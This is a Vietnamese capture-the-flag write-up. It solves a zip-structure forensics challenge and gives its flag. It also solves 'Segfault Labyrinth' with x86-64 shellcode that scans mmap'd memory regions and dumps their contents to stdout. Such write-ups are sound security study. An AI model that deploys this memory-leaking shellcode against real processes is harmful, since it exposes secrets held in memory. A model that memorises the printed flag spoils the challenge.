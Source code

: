 # Appnote.txt

Bài này là một dạng kỹ thuật nén nhiều tệp tin txt vào một file zip, ở đây ta có thể thấy flag được đánh số từ 0-18 tức là 19 ký tự và nếu dump ra 32 file flagxx.txt bất kỳ ta sẽ nhận được chuỗi strings abcdefghijklmnopqrstuvwxyz{CTF0137} lặp lại từ 00-18 có nghĩa là ký tự flag đã bị đảo. Cần xác định vị trí chính xác của ký tự flag trong 32 file flagxx.txt thì chúng ta dựa vào `End of central directory record` của file zip là `50 4b 05 06` và từ `EOCDR` sẽ xác định được `Central Directory file header` sau 2 byte `00` là sẽ tới 2 byte `CD`:

```
CC 00 00 00

88 0A 00 00

65 17 00 00

42 24 00 00

BB 2F 00 00

6C 38 00 00

27 4A 00 00

7F 52 00 00

3A 64 00 00

71 69 00 00

37 7C 00 00

58 7F 00 00

F1 95 00 00

3E 9D 00 00

5E A8 00 00

88 BC 00 00

92 C5 00 00

2C D4 00 00

20 DB 00 00

3F EE 00 00

50 00 00 00 
```

Dùng HxD search hex value các CD thì ta sẽ tìm được vị trí của flag từ 00-18:
```
88 0A 00 00 = flag00C = C

65 17 00 00 = flag01T = T

42 24 00 00 = flag02F = F

BB 2F 00 00 = flag03{ = {

6C 38 00 00 = flag04p = p

27 4A 00 00 = flag050 = 0

7F 52 00 00 = flag06s = s

3A 64 00 00 = flag077 = 7

71 69 00 00 = flag08m = m

37 7C 00 00 = flag090 = 0

58 7F 00 00 = flag10d = d

F1 95 00 00 = flag113 = 3

3E 9D 00 00 = flag12r = r

5E A8 00 00 = flag13n = n

88 BC 00 00 = flag14 = _

92 C5 00 00 = flag15z = z

2C D4 00 00 = flag161 = 1

20 DB 00 00 = flag17p = p

3F EE 00 00 = flag18} = }
```

=> CTF{p0s7m0d3rn_z1p}


# Segfault Labyrinth
Bài này tạo nhiều mảng nối lồng lại với nhau và sau đó để flag vào 1 trong những ô nhớ vừa được tạo. Nhiệm vụ sẽ là viết shellcode để lấy được flag:

```asm
lea rsp, [rip + 0x1000 - 0x34]
push 0
push rdi
check_stack:
mov rax, 1
mov rdi, 1
mov rsi, [rsp]
mov rdx, 128
syscall
pop rbp
mov r9, 0
loop:

mov r10, qword ptr [rbp + r9 * 8]

test r10, r10
jz skip_item

mov rax, r10
and rax, 0xfff
test rax, rax
jnz skip_item

mov rax, 5
mov rdi, 0
lea rsi, [r10 + 128]
syscall
cmp rax, 0xfffffffffffffff2
je skip_item

push r10

skip_item:
add r9, 1
cmp r9, 16
je check_stack
jmp loop
```

Tóm tắt: Vì sử dụng mmap nên elf sẽ allocate nhưng memory region khác nhau. Như vậy chỉ cần duyệt qua tất cả các memory region, đoạn memory nào được allocate thì sẽ in hết nội dung ra. 

Tham khảo: <https://shakuganz.com/2021/07/14/hackthebox-hunting-write-up>
